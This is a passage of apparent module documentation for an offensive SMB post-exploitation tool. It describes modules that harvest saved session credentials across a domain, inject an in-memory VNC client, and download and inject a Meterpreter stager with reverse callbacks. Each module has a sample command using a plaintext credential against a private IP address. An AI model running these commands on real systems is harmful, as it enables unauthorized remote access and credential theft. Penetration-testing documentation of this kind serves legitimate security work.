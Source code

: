 
Multiple_Host | Requires LA | Requires DA 
|---|---|---|
true | true | false 

**Options:**
```
    THOROUGH   Searches entire filesystem for certain file extensions (default: False)
    ALLDOMAIN  Queries Active Direcotry for a list of all domain-joined computers and runs SessionGopher against all of them (default: False)    
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M invoke_sessiongopher
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## invoke_vnc                
Injects a VNC client in memory

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```
    CONTYPE   Specifies the VNC connection type, choices are: reverse, bind (default: reverse).
    PORT      VNC Port (default: 5900)
    PASSWORD  Specifies the connection password.
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M invoke_vnc
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## met_inject                
Downloads the Meterpreter stager and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true  

**Options:**
```
    LHOST    IP hosting the handler
    LPORT    Handler port
    PAYLOAD  Payload to inject: reverse_http or reverse_https (default: reverse_https)
    PROCID   Process ID to inject into (default: current powershell process)
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M met_inject
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
